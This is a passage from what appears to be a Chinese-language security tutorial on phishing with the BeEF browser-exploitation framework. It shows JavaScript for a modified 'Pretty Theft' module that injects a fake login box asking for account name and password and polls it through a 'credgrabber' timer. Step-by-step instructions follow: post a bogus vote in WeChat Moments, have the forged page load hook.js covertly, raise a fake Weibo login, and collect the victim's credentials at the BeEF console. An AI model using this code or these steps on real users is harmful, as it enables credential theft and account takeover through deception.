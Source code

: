 ```

        // Build page including styles
        sneakydiv.innerHTML= '<div id="window_container" '+windowborder+ '><div id="windowmain" ' 

+windowmain+ '><div id="title_bar" ' +tbarstyle+ '>' +title+ '</div><p id="message" ' +messagestyle+ '>' + 

messagewords + '</p><table><tr><td align="right"> <div id="box_pre" ' +box_prestyle+ '>邮箱/会员帐号/手机号: 

</div></td><td align="left"><input type="text" id="uname" value="" onkeydown="if (event.keyCode == 13) 

document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ '/></td></tr><tr><td align="right"><div 

id="box_pre" ' +box_prestyle+ '>密码: </div></td><td align="left"><input type="password" id="pass" name="pass" 

onkeydown="if (event.keyCode == 13) document.getElementById(\'buttonpress\').value=\'true\'"' +inputboxstyle+ 

'/></td></tr></table>' + '<div id="bottom_bar" ' +bbarstyle+ '>' +buttonLabel+ '<input type="hidden" 

id="buttonpress" name="buttonpress" value="false"/></div></div></div>';

        // Repeatedly check if button has been pressed
        credgrabber = setInterval(checker,1000);
    }

```

3、实际操作
------

**1、**微信朋友圈发布投票消息，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9387c50c1353ad73d0ff9cf8b0b41ac08d201ab8.jpg)

用户点击后会打开我们伪造的投票页面，同时隐蔽加载hook.js，在BeEF端上线

**2、**在用户手机弹出模拟微博登录的对话框

如图执行Pretty Theft模块

![这里写图片描述](http://drops.javaweb.org/uploads/images/b10c4646e7ed6f828c0c54ee9c333c52e8a79813.jpg)

用户手机界面如图，弹出对话框提示输入登录消息

![这里写图片描述](http://drops.javaweb.org/uploads/images/5d9426624e22fc3fa494b1557fe5cb77256b035d.jpg)

BeEF控制端返回用户输入消息，如图

